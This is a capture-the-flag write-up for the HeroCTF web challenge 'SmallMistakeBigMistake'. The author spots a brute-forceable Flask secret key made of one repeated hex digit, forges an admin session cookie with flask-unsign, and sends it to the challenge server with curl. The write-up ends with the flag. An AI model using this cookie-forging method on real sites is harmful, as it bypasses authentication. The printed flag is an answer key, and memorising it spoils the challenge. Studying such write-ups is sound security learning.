








# SmallMistakeBigMistake

## The Problem

Points: 486

Rating: web easy

Author: xanhacks

Flavor Text:
```
The website developer made a small mistake in the code of his website. Can you identify and exploit it to extract the flag?

https://smallbigmistake.web.heroctf.fr


```

Attachments : [main.py](main.py)


## Solution

reviewing the source code we have a few key details that jump out:

```
from flask import Flask, session, render_template

```

we have a flask app

```
    flag = "You are not admin !"
    if session and session["username"] == "admin":
        flag = getenv("FLAG")

    return render_template("index.html", flag=flag)
```

this is a very simple page printing the flag only if you have a valid session and that session includes your username as admin. This is harder as there is no active session being built for you to reverse the formatting

```
app.secret_key = choice(hexdigits) * 32
```

after researching how to do flask session this part is really important as it sets the serverside secret to something making it impossible to generate a cookie without the secret key.

this app however is generating the key using the random function choice and the string list of hexdigits and using 32 of these

the hexdigits are 0-f

I confirmed this by editing the script to print the secret each time it is run and we get this: 



so the secret is something in this range:
```
00000000000000000000000000000000
11111111111111111111111111111111
22222222222222222222222222222222
...
ffffffffffffffffffffffffffffffff
FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF
```


some digging online and the flask-unsign python app should do the trick

```
pip3 install flask-unsign
```

now using a list of the signing commands we generate a few options for attempting the request

```
flask-unsign --sign --cookie "{"username": "admin"}" --secret "00000000000000000000000000000000" --no-literal-eval
```



the default state of the target page is 



working my way down the list I try the sessions we generated:

```
curl 'https://smallbigmistake.web.heroctf.fr/' -H 'cookie: session=Int1c2VybmFtZTogYWRtaW59Ig.YpIoVA.hC4EKb17aTNZgPRAzAtTVV0WUSY'
```

this works but doesnt trigger the flag until one throws a serverside error. A quick check to make sure its not a fluke or the server blocking us after so many attempts shows its actually and error:




reviewing the code and this may actually be the python app pitching a fit because the formatting it incorrect. 



I had adjusted the flask-unsign example to fix the json formating that was invalid from

'{'username':'admin'}' to "{"username":"admin"}"

thinking this could have caused the server to not pickup my cookie initially? 

so I tryed the same secret but with the reverted session detail




try this and:






## Flag
```
Hero{Sm4ll_Mist4ke_c4n_be_d4ngerous_10853085}

```

## Final Notes

fun simple task and added a tool to my CTF belt.